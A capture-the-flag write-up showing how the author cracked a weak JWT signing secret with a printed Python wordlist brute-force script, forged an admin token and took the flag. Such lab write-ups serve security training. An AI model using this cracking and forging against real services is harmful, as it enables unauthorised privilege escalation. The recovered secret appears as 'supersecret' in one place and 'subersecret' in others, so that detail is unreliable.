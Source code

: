 # Web | Just What you Think

### Coin: 100

**Link**: [https://ctf-1-vo9x.vercel.app/](https://ctf-1-vo9x.vercel.app/)

# Web | Just What you Think

### Coin: 100

**Link**: https://ctf-1-vo9x.vercel.app/

### Step 1: Registering an Account

- I started by registering a new account using the **register** functionality on the website.

### Step 2: Testing Admin Access

- I reviewed the admin functions after logging in
- The response was:
    
    `You are not admin.`
    
- This indicates that my current account does **not** have admin privileges.

### Step 3: Inspecting the JWT

- I captured the **JWT (JSON Web Token)** issued after logging in.
- Then, I decoded it using [jwt.io](http://jwt.io/).
- From the decoded payload, I observed that my role or privilege level was set to:`"role": "user"`

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image.png)

### Step 4: Analyzing the JWT Setup

To escalate privileges, I needed to analyze how the JWT was being signed.

- My goal was to determine if the JWT signature was using a **weak or common secret key**.
- I suspected that the application might be signing tokens using a predictable or default key.

### Step 5: Brute-Forcing the Secret Key

- I used a Python script to brute-force the JWT secret using a wordlist of common/default secrets.
- You can find the script I used here: [python code with the top 100  default secrets including the one in the challenge `subersecret`](https://www.notion.so/python-code-with-the-top-100-default-secrets-including-the-one-in-the-challenge-subersecret-24ca4a579e0d802e9a53ea9bcb6dc889?pvs=21)
- After running the script, I discovered that the JWT secret key is:`supersecret`
- 


![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%201.png)

then i verified it on jwt.io:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%202.png)

then in JWT Encoder i changed the role to admin using the secret key:

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%203.png)

then i set the new token 

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%204.png)

And it worked — I was able to change my role from user to admin, access the admin functionality, and retrieve the flag.

![image.png](Web%20Just%20What%20you%20Think%2024ca4a579e0d8069ae54f54bd5239881/image%205.png)

- python code with the top 100  default secrets including the one in the challenge `subersecret`
    
    ```jsx
    import jwt
    
    """
    JWT secret key bruteforce
    """
    
    # JWT Token to decode
    token = input('Enter the Token: ')
    
    # List of common secrets to try
    secrets = [
        "secret", "password", "admin", "123456", "letmein", 
        "changeme", "qwerty", "abcdef", "test", "jwtsecret",
        "admin123", "mysecret", "welcome", "123123", "1q2w3e4r", 
        "123qwe", "root", "toor", "letmein123", "password123", 
        "password1", "iloveyou", "monkey", "sunshine", "football", 
        "1234", "princess", "qwerty123", "12345", "123abc", 
        "hello", "welcome123", "123qaz", "adminadmin", "trustno1", 
        "trustnoone", "shadow", "master", "guest", "god", "test123",
        "hunter2", "admin1234", "changeme123", "p@ssw0rd", 
        "letmein1234", "welcome1", "passw0rd", "root123", "p@ssword", 
        "qwertyuiop", "monkey123", "iloveyou123", "12345qwerty", "abc123", 
        "qwertyui", "password321", "secret123", "abcd1234", "1234qwerty", 
        "1qaz2wsx", "qazwsx", "1qazXSW@", "myadmin", "letmeinqwerty", 
        "hello123", "admin12345", "12345admin", "welcome12345", "qwerty12",
        "letmeinqwerty123", "y0u45ecreT", "s3cret", "p4ssword", "secretkey", 
        "forbidden", "getoverit", "password111", "1234root", "god123", 
        "access123", "passphrase", "mysupersecret", "iloveyou1", "secure123", 
        "abcde12345", "password!123", "12345letmein", "12345secret", "asdfgh", 
        "pass123", "fakepassword", "thisispassword", "ilovepassword", "1234test",
        "secretpassword", "user123", "123456789", "welcome12345", "subersecret"
    ]
    
    # Try each secret
    for secret in secrets:
        try:
            # Attempt to decode the token with the current secret
            decoded = jwt.decode(token, secret, algorithms=['HS256'])
            print(f"[+] Success! \n[+] Secret: {secret} -> Payload: {decoded}")
            break  # Exit once the valid secret is found
        except jwt.ExpiredSignatureError:
            print(f"Expired signature, secret: {secret}")
        except jwt.InvalidTokenError:
            pass  # Ignore invalid token errors
    ```
